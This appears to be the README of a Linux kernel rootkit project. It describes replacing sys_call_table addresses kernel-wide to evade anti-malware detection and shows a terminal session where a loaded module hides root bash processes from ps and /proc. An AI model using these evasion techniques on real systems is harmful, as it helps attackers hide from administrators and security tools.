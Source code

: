 # No releases yet

This software is under development.  
There's not even 1 release yet.  

# Hooking technique

The idea is to replace the addresses of the sys_call_table in the whole kernel, avoiding anti malware to find hook handlers on the sys_call_table.  
It must find the rootkit's sys_call_table from the opcodes in the kernel.  

# Tested versions

Until commit https://github.com/D1W0U/ARP-RootKit/commit/3ac1022783b8b81225a54989fe10513c31e93a0b, those Linux Kernel versions are tested (under Ubuntu):  
- 4.13.0-32-generic
- 4.13.0-31-generic  
- 4.13.0-26-generic  
- 4.11.0-13-generic  
- 4.10.0-42-generic  
- 4.10.0-14-generic  
- 4.8.0-36-generic  
- 4.4.0-101-generic  

But the rootkit is still in development. And atm doesn't stealths anything, nor give backdoor access. It just finds the places where sys_call_tables are, preparing the project (ttw I gave support to the before versions), to start the part of a rootkit itself.  

# The first commit of this project

At the beggining, I started doing research of ways of implementing a rootkit without hooking syscalls.  
And I found a way of hidding PIDs. The problem is that the process can't terminate ever.  
But maybe hooking sys_exit and restoring the pid into the structures of the kernel, it would be possible.  

Below an example of the working `rootkit.c` first commit:  

```
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
diwou@diwou-VirtualBox:~/arprootkit$ grep 392 rootkit.c
hide_pid(3924);
hide_pid(3925);
diwou@diwou-VirtualBox:~/arprootkit$ sudo insmod rootkit.ko
find_vpid ffff9df24f34c180
Ok
find_vpid ffff9df24f34cb00
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3924
ls: no se puede acceder a '/proc/3924': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3925
ls: no se puede acceder a '/proc/3925': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ sudo rmmod rootkit
Ok
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
```

Here the https://github.com/D1W0U/ARP-RootKit/commit/217e1473cb41911f78fa7c8388e7d6ff2cc868cb
